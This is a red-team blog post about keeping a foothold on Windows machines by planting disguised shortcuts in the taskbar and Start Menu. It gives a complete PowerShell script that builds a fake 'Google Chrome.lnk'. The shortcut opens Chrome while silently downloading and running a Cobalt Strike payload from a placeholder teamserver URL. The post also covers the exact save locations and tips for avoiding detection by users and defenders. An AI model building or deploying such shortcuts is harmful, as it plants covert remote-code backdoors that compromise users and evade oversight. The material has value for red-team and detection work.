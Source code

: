 ```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">**autoruns**</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## User-Drive Persistence
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's <a href="https://www.twitter.com/_staaldraad">@_staaldraad</a> has a handy tool I was introduced to at Blackhat called <a href="https://github.com/sensepost/ruler">**"Ruler"**</a>. The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius!
### Subj: "bSpence love his shells"

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"></a>
</figure>
Ex: "My Current Taskbar Situation"
{: .mycenter}
## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, below I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what it looks like
{: .mycenter}
<figure> 
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"></a>
</figure>
Ex: "Google Chrome.lnk"
{: .mycenter}
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight html %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight html %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight html %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight html %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what browsing toe chrome.exe for an icon selection looks like
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"></a>
</figure> 
Ex: "Icons for Chrome.exe"
{: .mycenter}
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"></a>
</figure> 
Ex: "Location: powershell"
{: .mycenter} 
## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with to generate a lnk of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations. With a little situational awareness and some well placed .lnk's you might be able to sneak by even the best defenders.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!
